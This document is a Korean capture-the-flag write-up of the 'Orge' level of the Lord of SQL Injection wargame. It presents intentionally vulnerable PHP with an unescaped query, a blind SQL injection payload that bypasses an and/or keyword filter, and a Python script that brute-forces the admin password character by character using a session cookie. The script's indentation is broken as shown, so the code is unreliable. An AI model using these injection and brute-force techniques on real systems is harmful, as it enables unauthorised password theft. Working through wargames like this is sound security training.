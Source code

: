 # Lord of SQL Injection No.7 - Orge
## 문제 출제 의도
1. 'and'나 'or'을 사용하지 않고 Blind SQL을 할 수 있는지 확인한다.
## 소스 코드 분석
+ 소스코드
Orge의 소스코드는 다음과 같다.
    ~~~
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
    $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
    - Get 방식으로 받은 문자열에 'prob _ . ( )중 하나라도 있다면 "No Hack~_~"이 출력되고 문제 풀이에 실패한다.
    - Get 방식으로 받은 문자열에 'or'나 'and'가 있다면 "HeHe"가 출력되고 문제 풀이에 실패한다.
    - 받은 pw 값과 GET방식으로 입력한 pw가 같다면 문제풀이에 성공한다.

## 문제 해결
- 추가 문자열
    비밀번호가 몇글자인지 알아내기 위해 URL 뒤에 다음과 같은 문자열을 추가 하여 확인한다.   
    ~~~
    ?pw=' || id='admin' %26%26 length(pw)=8-- -
    ~~~      
    - 이는 Hello admin을 출력하게 만들기 때문에 우리는 pw가 8자리인 것을 알 수 있다.
    - 이때 '&'는 인식 불가하기 때문에 이를 아스키 코드화 하여 %26으로 적어준다.
- 해결 코드
    - 위와 비슷한 방법으로 계속해서 URL을 조작하면 비밀번호를 유추해낼 수 있지만 코드를 작성해서 풀면 더욱 편하다.
    - 다음은 파이썬 코드이다.
    ~~~
    import urllib.request
    from urllib.parse import quote
    key = ""
    for i in range(1, 9):
    for j in range(32, 127):
        url = "http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw="
        data="' || id='admin'&& substr(pw,1,{})='{}'#".format(str(i), key + chr(j))
        print(data)
        data = quote(data)
        re = urllib.request.Request(url + data)
        re.add_header("User-Agent", "Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=5risr964i7sta3c1mgd3mphah1")

        res = urllib.request.urlopen(re)

    if str(res.read()).find("Hello admin") != -1:
        key += chr(j).lower()
        print(key)
        break
    print(key)
    ~~~
- 다음 코드를 실행하면 key=6c864dec이 출력된다.
- 6c864dec를 GET방식으로 입력하면 해결된다.
~~~
http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw=6c864dec
~~~